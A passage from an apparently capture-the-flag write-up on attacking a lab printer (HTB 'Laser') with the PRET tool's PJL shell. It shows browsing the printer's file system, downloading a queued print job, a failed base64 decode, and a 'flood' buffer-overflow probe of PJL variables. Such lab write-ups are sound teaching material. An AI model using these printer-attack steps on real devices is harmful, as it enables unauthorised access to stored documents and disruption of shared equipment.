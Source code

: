 After testing all of the PCL commands and getting nothing I went back and tried the third language, PJL, and got another shell with many more commands available after using the `help` command.

```text
10.10.10.201:/> ls
d        -   pjl
10.10.10.201:/> cd pjl
10.10.10.201:/pjl> ls
d        -   jobs
10.10.10.201:/pjl> cd jobs/
10.10.10.201:/pjl/jobs> ls
-   172199   queued
10.10.10.201:/pjl/jobs> cat queued
b'VfgBAAAAAADOiDS0d+nn3sdU24Myj/njDqp6+zamr0JMcj84pLvGcvxF5IEZAbjjAH

...huge text wall snipped...

dgblOUDj6BOA+MLrAiC/chpVOipOMtlonY1lxELrGFvQKAO8RSMUZNovS5gkLUolUkX3X6OeCsYJRf20mrgSSQ'
```

This time I was able to navigate the file structure.  In the folder `/pjl/jobs` there was a file named `queued`. 


> I made the mistake of **`cat`**-ing the **`queued`** file at first. Don't do this, unless you want to copy the extremely long base64 string and recreate the file yourself. Use **`get`** instead...


```text
10.10.10.201:/pjl/jobs> get queued
172199 bytes received.
```

**Use `get`**.  This will nicely download the file to your local machine.  However, when I opened the file it was still a wall of base64 encoded text so I tried to decode it.

```text
┌──(zweilos㉿kali)-[~/htb/laser/PRET]
└─$ echo queued | base64 -d > queued.decoded
base64: invalid input
```

After removing the extra characters \(that looked to indicate that it was supposed to be a python byte string\) from the file I tried to base64 decode it, but it still seemed to be invalid encoding.  I decided to keep enumerating to see if I could find anything to help me move forward.

```text
10.10.10.201:/pjl/jobs> df
VOLUME TOTAL SIZE FREE SPACE LOCATION LABEL STATUS
0:     1755136    1718272    <HT>     <HT>  READ-WRITE
```

I did seem to have read-write access on the local drive.  I wondered if there was a way to write something malicious to the printer to execute code...

```text
10.10.10.201:/pjl/jobs> id
LaserCorp LaserJet 4ML
10.10.10.201:/pjl/jobs> pagecount
Hardware page counter: PAGECOUNT=183933
10.10.10.201:/> flood
Receiving PJL variables. Found 29 variables.
Buffer size: 10000, Sending: @PJL SET COPIES=[buffer]
Buffer size: 10000, Sending: @PJL SET PAPER=[buffer]
Buffer size: 10000, Sending: @PJL SET ORIENTATION=[buffer]
Buffer size: 10000, Sending: @PJL SET FORMLINES=[buffer]
Buffer size: 10000, Sending: @PJL SET MANUALFEED=[buffer]
Buffer size: 10000, Sending: @PJL SET RET=[buffer]
Buffer size: 10000, Sending: @PJL SET PAGEPROTECT=[buffer]
Buffer size: 10000, Sending: @PJL SET RESOLUTION=[buffer]
Buffer size: 10000, Sending: @PJL SET PERSONALITY=[buffer]
```